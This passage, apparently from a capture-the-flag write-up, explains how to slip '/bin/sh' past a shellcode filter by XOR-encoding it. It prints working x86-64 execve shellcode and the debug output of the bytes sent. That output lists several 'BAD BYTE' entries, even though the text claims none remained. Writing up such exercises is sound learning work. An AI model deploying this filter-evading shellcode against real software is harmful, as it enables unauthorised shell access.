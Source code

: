 We can see that most parts of our shellcode are filtered (syscall number, /bin/sh...). This make me confuse and take a lot of time to research how to bypass that filter. After several hours of research, I discovered a clever solution: using the `XOR` operation to encode `/bin/sh` and "hide" it within the `shellcode`. The idea is to encode the string `/bin/sh` with a carefully chosen `XOR` key, so the resulting encoded string no longer contains any filtered or bad bytes. During runtime, the `shellcode` can decode `/bin/sh` back to its original form by applying the `XOR` operation again with the same key.

Here’s how the XOR encoding works:

- Let `/bin/sh` represent the original string to encode.
- Choose a key such that when `/bin/sh` is `XOR-ed` with this key, the result contains no bad bytes (e.g., null bytes, restricted characters, or other filtered bytes).
- The encoding operation is:

```bash
/bin/sh ^ KEY = ENCODED_STRING
```

- During shellcode execution, we reverse the operation to decode the string back:

```
KEY ^ ENCODED_STRING = /bin/sh

```

By encoding `/bin/sh` in this manner, the opcodes of our shellcode are effectively altered. This allows the encoded `shellcode` to pass the filtering checks, as the raw bytes no longer directly match `/bin/sh` or contain restricted characters. But the problem is how we can find their key that XOR with `/bin/sh` does not give bad bytes. I start with `0xffffffffffffffff`. Luckily, there is no bad bytes here when I run the exploit again:

- Shellcode:

```nasm
    mov rdi, 0xff978cd091969dd0
    xor rdi, 0xffffffffffffffff

    push rdi
    mov rdi, rsp

    xor rsi, rsi
    xor rdx, rdx
    mov rax, 0x3b
    syscall
```

- Run

```bash
<...>
BAD BYTE --> 0xf6
ASCII --> ö
BAD BYTE --> 0xd2
ASCII --> Ò
BAD BYTE --> 0xc0
ASCII --> À
BAD BYTE --> 0x3b
ASCII --> ;
[DEBUG] Sent 0x22 bytes:
    00000000  48 bf d0 9d  96 91 d0 8c  97 ff 48 83  f7 ff 57 48  │H···│····│··H·│··WH│
    00000010  89 e7 48 31  f6 48 31 d2  48 c7 c0 3b  00 00 00 0f  │··H1│·H1·│H··;│····│
    00000020  05 0a                                               │··│
    00000022
<...
```

